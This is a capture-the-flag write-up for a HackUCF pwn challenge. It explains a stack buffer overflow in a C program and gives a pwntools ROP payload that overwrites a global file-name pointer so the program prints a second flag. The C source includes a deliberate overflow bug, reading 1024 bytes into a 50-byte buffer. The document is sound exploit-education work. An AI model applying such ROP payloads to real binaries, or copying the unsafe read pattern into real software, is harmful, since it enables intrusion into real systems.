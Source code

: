 ```yaml
---
layout: post
title: Global Variable Overwrite
description:
date: 2025-07-28
categories:
  - pwn 
  - writeup
tags:
  - stack
---
```

# Exploit Write-up: Buffer Overflow with Global Variable Control

[Challenge](https://ctf.hackucf.org/challenges#stack0%20pt2)

### Overview

In this challenge, we are given a C program that contains a **buffer overflow vulnerability** in the `func()` function. The goal is to exploit this vulnerability to print the contents of the correct flag file, `flag2.txt`, even though the binary is hardcoded to open `flag1.txt`.

---

### Source Code Summary

```c
static const char* flagfile = "flag1.txt";

static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if (!fp) {
        perror(flagfile);
        return;
    }
    fgets(flag, sizeof(flag), fp);
    fclose(fp);
    printf("Here is your first flag: %s\n", flag);
}
```

In `giveFlag()`, the program uses a **global variable `flagfile`** to open the flag file. Our goal is to make it open `flag2.txt` instead.

---

### Vulnerability

In `func()`:

```c
void func(void) {
    bool didPurchase = false;
    char input[50];

    printf("Debug info: Address of input buffer = %p\n", input);
    read(STDIN_FILENO, input, 1024);

    if (didPurchase) {
        printf("Thank you for purchasing Hackersoft Powersploit!\n");
        giveFlag();
    } else {
        printf("This program has not been purchased.\n");
    }
}
```

- `input` is a 50-byte buffer.
- The program reads **1024 bytes** into it using `read()`, which causes a **stack-based buffer overflow**.
- `didPurchase` is right before `input` on the stack, so it can be overwritten.
- After that, the **return address can also be overwritten**.

---

### Exploitation Plan
1. **Overwrite `didPurchase`** to `true` so that `giveFlag()` is called.
2. **Overwrite the global variable `flagfile`** to point to `"flag2.txt"` instead of `"flag1.txt"`.
---
### Step-by-Step Exploitation
#### Step 1: Overwrite `didPurchase`
- Since `didPurchase` is right above `input`, the first byte of overflow can flip it to non-zero (`true`).
#### Step 2: Overwrite `flagfile`
- `flagfile` is a global pointer. So we can overwrite it with a pointer to `"flag2.txt"` stored in our buffer.
#### Step 3: Use ROP to overwrite `flagfile`

- Since we control the return address, we can craft a **ROP chain** to write the address of `"flag2.txt"` into the `flagfile` global variable.
- 
ROP gadget Used:

```
0x08049400 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

Payload:
```python
payload = flat(
	cyclic(63), # bytes to fill buffer up to EIP
	# write flag2.txt to writable memory
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	bss, # buf address where is will be store (writeable memory)
	11, # len
	0x0, # junk
	#overwrite the flagfile variable pointer
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	flagfile_addr_ptr, # hardcoded flagfile addr
	0x0,
	giveFlag, # giveflag function ptr
)
```

[Full Exploit Script](https://github.com/tibane0/ctf-pwn/blob/main/hackucf/stack0_pt2/xlp.py)

---

### Lessons Learned

- Global variables can be overwritten indirectly through buffer overflows.